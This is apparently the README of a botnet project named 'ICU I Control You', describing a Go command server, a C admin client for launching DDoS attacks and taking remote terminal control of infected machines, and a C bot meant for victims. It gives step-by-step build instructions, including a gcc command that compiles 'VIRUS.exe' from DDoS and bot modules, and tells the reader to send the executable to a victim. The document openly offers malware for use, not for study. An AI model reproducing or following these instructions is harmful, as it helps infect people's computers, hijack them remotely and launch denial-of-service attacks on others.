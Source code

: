 # `ICU` I Control You

# Developer documentation (Russian version)

## Main folders (their usage)

-   server - The `server` folder is intended for the development and launch of the server itself (Golang) to which bots (PCs) will knock. The server accepts packets from the admin part and from bots (PCs) and also sends the corresponding packets.
-   admin - Folder `admin` of the admin part(C), sending the DDoS attack initiation package, monitoring bots (PCs), receiving reports, conducting activity testing and gaining remote access to the bot terminal.
-   sys - The `sys` folder written in (C) is compiled into .exe files that are needed by a potential user for infection. (Windows/Linux)

## Download to your PC

1. Make a fork or clone repository from a branch (main or latest version)

## Server Startup (Golang)

1. To start the server, navigate to the `cd server` directory.
2. Install the Golang language on your computer, for example from the website (- v1.23.0) - https://go.dev/doc/install
3. Create a file.env with the variables specified in .env.example
4. Then run the servers like `make run` or `go run main.go`

## Running the admin client (C)

1. To launch the admin client, navigate to the `cd admin/source` directory.
2. Run the ready-made exe file!

## Launching the bot client (C)

`cd sys/windows' is the main directory of the VIRUS ITSELF - send the exe file to `cd sys/windows/source' to the victim!

1. To get the bot, go to the `cd sys/windows` directory.

### If you are on windows

1. Download the gcc compiler - [Installation link](https://programforyou.ru/poleznoe/kak-ustanovit-gcc-dlya-windows ?ysclid=ma6mecgzgl891843266)
2. Install make - [Installation link](https://www.gnu.org/software/make/#download) - then run `make exe`
   2.1. Or run it in the terminal:

```bash
gcc x86_x64.c -o "source/VIRUS.exe" stdlib/ICU_log.c core/ICU_bot.c stdlib/ICU_ipgeo.c stdlib/ICU_env.c stdlib/crc.c stdlib/ICU_packet.c stdlib/ICU_dos.c process/windowsprocess.c process/recyclebinprocess.c process/dirprocess.c -mwindows -lws2_32 -lwinhttp -liphlpapi -lshell32 -lole32 -luuid
```

2. Then go to `cd sys/windows/windows`, that's it! you will find the exe file

